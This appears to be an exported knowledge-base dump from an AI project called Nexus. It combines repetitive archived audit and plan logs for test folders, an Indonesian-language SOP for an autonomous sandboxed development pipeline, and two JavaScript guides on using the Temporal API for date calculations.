- **Audit ID**: AUDIT-1778145160535-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145160535-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145160535-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145160535-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145160912 | **Audit Ref**: AUDIT-1778145160535 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145277165 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 7
- **Audit ID**: AUDIT-1778145277165-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145277165-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145277165-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145277165-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145277165-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145277165-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145277592 | **Audit Ref**: AUDIT-1778145277165 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145337325 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 7
- **Audit ID**: AUDIT-1778145337325-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145337325-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145337325-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145337325-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145337325-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1
- **Audit ID**: AUDIT-1778145337325-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\anti-prompt-replay_validation | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145337737 | **Audit Ref**: AUDIT-1778145337325 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, anti-prompt-replay_validation]

### 📘 KNOWLEDGE: NEXUS_AUTONOMOUS_SANDBOX_PIPELINE.MD

# 🧪 NEXUS AUTONOMOUS SANDBOX PIPELINE (SOP-009)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Dokumen ini mendefinisikan alur kerja otonom Nexus dalam mengelola proyek di lingkungan terisolasi (Sandbox) untuk tujuan **Project Based Learning (PBL)** dan evolusi sistem.

## 1. Fase Inisialisasi (Spawn Phase)
*   **Isolasi**: Proyek harus dibuat di dalam direktori `tests/sandboxes/[project-name]`.
*   **Nexus Injection**: Setiap sandbox harus memiliki folder `nexus/` lokal untuk penyimpanan dokumentasi sesi.
*   **Clean Start**: Inisialisasi framework (misal: Laravel) dilakukan secara bersih menggunakan perintah otonom.

## 2. Fase Audit & Planning (Cognitive Cycle)
*   **Specialist Audit**: Aktivasi agen spesialis (UX, Security, Database) untuk memindai kondisi awal sandbox.
*   **Implementation Plan**: Pembuatan rencana tugas (Task List) berdasarkan temuan audit.
*   **TDD Scaffolding**: Pembuatan file pengujian (`tests/`) sebelum kode produksi ditulis.

## 3. Fase Eksekusi & Self-Healing (Execution Cycle)
*   **Hukum Besi TDD**: Dilarang mengubah file tanpa adanya test yang memverifikasi perubahan tersebut.
*   **Atomic Modification**: Perubahan dilakukan satu per satu untuk memudahkan pelacakan error.
*   **Autonomous Debugging**: Jika terjadi error (misal: `500 Internal Server Error`), Nexus wajib melakukan investigasi stack trace dan melakukan *hotfix* secara mandiri.

## 4. Fase Verifikasi (Validation Phase)
*   **Test Run**: Menjalankan `php artisan test` atau suite pengujian relevan.
*   **Evidence Collection**: Pengumpulan bukti fisik bahwa fitur telah berjalan sesuai rencana.

## 5. Fase Harvesting (Knowledge Extraction)
*   **Wisdom Distillation**: Penyerapan insight teknis dari sandbox ke **Golden HUB Utama**.
*   **Cleansing**: Penghapusan data sensitif (API Keys, IP, dll) sebelum data diserap ke memori jangka panjang.
*   **Skill Forging**: Pengubahan pola kode yang sukses menjadi workflow permanen bagi Nexus.

---
*Generated by Nexus Orchestrator | Versi 1.0.0 | Status: ACTIVE*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_AUTONOMOUS_TRIGGER_SYSTEM_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144634522 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 9
- **Audit ID**: AUDIT-1778144634522-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144634522-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144634522-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144634522-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144634522-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144634522-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144634964 | **Audit Ref**: AUDIT-1778144634522 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144916740 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144916740-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144916740-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144916740-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144916740-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144916740-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144916740-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144917143 | **Audit Ref**: AUDIT-1778144916740 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144961685 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144961685-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144961685-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144961685-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144961685-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144961685-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144961685-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144962121 | **Audit Ref**: AUDIT-1778144961685 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145163829 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145163829-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145163829-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145163829-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145163829-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145163829-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145163829-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145164277 | **Audit Ref**: AUDIT-1778145163829 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145280414 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145280414-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145280414-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145280414-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145280414-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145280414-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145280414-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145280966 | **Audit Ref**: AUDIT-1778145280414 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145340787 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145340787-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145340787-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145340787-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145340787-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145340787-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145340787-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\autonomous_trigger_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145341315 | **Audit Ref**: AUDIT-1778145340787 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, autonomous_trigger_system]

### 📘 KNOWLEDGE: NEXUS_CALCULATE-EVENT-DIFFERENTIALS.MD

# Calculating Event Differentials with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Calculating the time elapsed between events (such as trial expirations, subscription durations, or prorated costs) has historically been difficult with the legacy `Date` object due to complexities with time zones, daylight saving time (DST), and inconsistent parsing.

The `Temporal` API provides a modern, robust solution for date and time arithmetic. Specifically, `Temporal.ZonedDateTime` and `Temporal.Duration` enable exact, DST-safe calculations of time differences.

## How to Implement

To calculate differentials between two events:

1.  **Obtain ZonedDateTime objects**: Convert your inputs (dates and times) into `Temporal.ZonedDateTime` objects. This ensures calculations are time-zone aware.
2.  **Calculate active time with `.since()`**: Use `currentZonedDateTime.since(startZonedDateTime)` to find the time elapsed since a start event.
3.  **Calculate remaining time with `.until()`**: Use `currentZonedDateTime.until(endZonedDateTime)` to find the time remaining until a future event.
4.  **Control precision with options**: Use `largestUnit`, `smallestUnit`, and `roundingMode` to control how the resulting duration is balanced and rounded.

### Example: Trial Expiration Calculation

```javascript
// 1. Get current time point in the system time zone
const now = Temporal.Now.zonedDateTimeISO();
const tz = now.timeZoneId;

// 2. Parse inputs (assuming ISO strings from form inputs)
const startDateStr = "2025-01-01";
const startTimeStr = "12:00:00";
const endDateStr = "2025-01-31";
const endTimeStr = "12:00:00";

const startDate = Temporal.PlainDate.from(startDateStr);
const startTime = Temporal.PlainTime.from(startTimeStr);
const start = startDate.toPlainDateTime(startTime).toZonedDateTime(tz);

const endDate = Temporal.PlainDate.from(endDateStr);
const endTime = Temporal.PlainTime.from(endTimeStr);
const end = endDate.toPlainDateTime(endTime).toZonedDateTime(tz);

// 3. Calculate difference using .since() and .until()
// By default, units larger than hours might not wrap automatically.
// Use largestUnit to ensure differences are expressed in larger units if applicable.
const timeActive = now.since(start, { largestUnit: 'year' });
const timeRemaining = now.until(end, { largestUnit: 'year' });

console.log(`Active: ${timeActive.days} days, ${timeActive.hours} hours`);
console.log(`Remaining: ${timeRemaining.days} days, ${timeRemaining.hours} hours`);

// 4. Compare dates
const isExpired = Temporal.ZonedDateTime.compare(now, end) > 0;
if (isExpired) {
  console.log("Subscription is expired.");
}
```

## Strategic Implementation & Best Practices

-   **DO** use `Temporal.ZonedDateTime` for calculations involving real-world events that occur in specific time zones (like subscription renewals or event scheduling).
-   **DO** use `largestUnit` to specify the largest unit you want in the result (e.g., `'year'` or `'month'`). If you omit it, it defaults to `'auto'` which might not always sum up to years/months as expected for human-readable durations.
-   **DO** use `.since()` when calculating time elapsed *since* a past event (e.g., `now.since(start)`), and `.until()` for time remaining *until* a future event (e.g., `now.until(end)`).
-   **DO NOT** modify instances directly; `Temporal` objects are **immutable**. Operations like `add()`, `subtract()`, or `with()` return a *new* instance.
-   **DO** use `Temporal.ZonedDateTime.compare` to check if one time point is after another. It returns `1` if the first is after the second, `-1` if before, and `0` if equal.

## Fallback Strategy

### Fallbacks & browser support for Temporal

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For browsers that do not yet support the native `Temporal` API, use feature detection and a polyfill. The standard reference polyfill is `@js-temporal/polyfill`.

Note that the polyfill does not automatically assign the `Temporal` object to the global scope to avoid conflicts. You must manually assign it if your code relies on the global `Temporal` object.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_CAPTURE-LOCATION-AGNOSTIC-DATA.MD

# Capturing Location-Agnostic Data with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Recording chronological data that should remain identical regardless of the viewer's location (such as birthdates, recurring alarms, or national holidays) has historically been error-prone with the legacy `Date` object. Because `Date` objects always represent a specific instant in time and are tied to a time zone, saving a date like "1990-01-01" can result in users in different time zones seeing "1989-12-31" due to offset shifts.

The `Temporal` API introduces "Plain" types—such as `Temporal.PlainDate` and `Temporal.PlainTime`—which have no concept of a time zone. These types represent calendar dates and wall-clock times exactly as you would read them off a calendar or a clock, making them ideal for location-agnostic data.

## How to Implement

To capture and display location-agnostic data:

1.  **Use `Temporal.PlainDate` for dates**: For data like birthdates or holidays, use `Temporal.PlainDate.from()` to create an instance from an ISO 8601 string or an object.
2.  **Use `Temporal.PlainTime` for times**: For data like a daily alarm or a preferred lunch time, use `Temporal.PlainTime.from()`.
3.  **Display without conversion**: Since these objects are time-zone unaware, they will display the same values regardless of the user's local time zone.

### Example: Capturing a Birthdate

```javascript
// 1. Parse a date string from an input (e.g., "1990-01-01")
const birthdateStr = "1990-01-01";
const plainDate = Temporal.PlainDate.from(birthdateStr);

// 2. Display the date
// This will output "01/01/1990" (or equivalent) in any time zone
console.log(plainDate.toLocaleString('en-GB')); 

// 3. Compare with standard Date (which might drift)
const dateObj = new Date("1990-01-01T00:00:00Z");
// In a UTC-5 time zone, this might print "31/12/1989"
console.log(new Intl.DateTimeFormat('en-GB', { timeZone: 'America/New_York' }).format(dateObj));
```

## Strategic Implementation & Best Practices

-   **DO** use `Temporal.PlainDate` for "calendar dates" like birthdates, anniversaries, and holidays where the specific time of day or time zone is irrelevant.
-   **DO** use `Temporal.PlainTime` for "wall-clock times" like a daily reminder at 9:00 AM, where the time should be 9:00 AM in whatever time zone the user happens to be in.
-   **DO NOT** use Plain types if you need to represent a specific moment in physical time (an "instant"). Use `Temporal.Instant` or `Temporal.ZonedDateTime` for logs, event timestamps, or anything requiring time zone awareness.
-   **DO** remember that `Temporal` objects are **immutable**. Methods like `add()` or `with()` return a new instance rather than modifying the original.

## Fallback Strategy

### Fallbacks & browser support for Temporal

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For browsers that do not yet support the native `Temporal` API, use feature detection and a polyfill. The standard reference polyfill is `@js-temporal/polyfill`.

Note that the polyfill does not automatically assign the `Temporal` object to the global scope to avoid conflicts. You must manually assign it if your code relies on the global `Temporal` object.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_CODE_GENERATION_SAFETY_TEST_(FORGE)_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144644674 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 9
- **Audit ID**: AUDIT-1778144644674-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144644674-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144644674-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144644674-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144644674-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144644674-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144645118 | **Audit Ref**: AUDIT-1778144644674 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144923019 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 7
- **Audit ID**: AUDIT-1778144923019-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144923019-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144923019-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144923019-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144923019-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144923019-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144923409 | **Audit Ref**: AUDIT-1778144923019 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144968022 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 7
- **Audit ID**: AUDIT-1778144968022-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144968022-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144968022-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144968022-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144968022-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778144968022-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144968566 | **Audit Ref**: AUDIT-1778144968022 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145170550 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 7
- **Audit ID**: AUDIT-1778145170550-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145170550-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145170550-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145170550-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145170550-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145170550-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145170941 | **Audit Ref**: AUDIT-1778145170550 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145287579 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 7
- **Audit ID**: AUDIT-1778145287579-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145287579-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145287579-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145287579-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145287579-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145287579-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145287970 | **Audit Ref**: AUDIT-1778145287579 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145347566 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 7
- **Audit ID**: AUDIT-1778145347566-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145347566-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145347566-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145347566-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
- **Audit ID**: AUDIT-1778145347566-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1
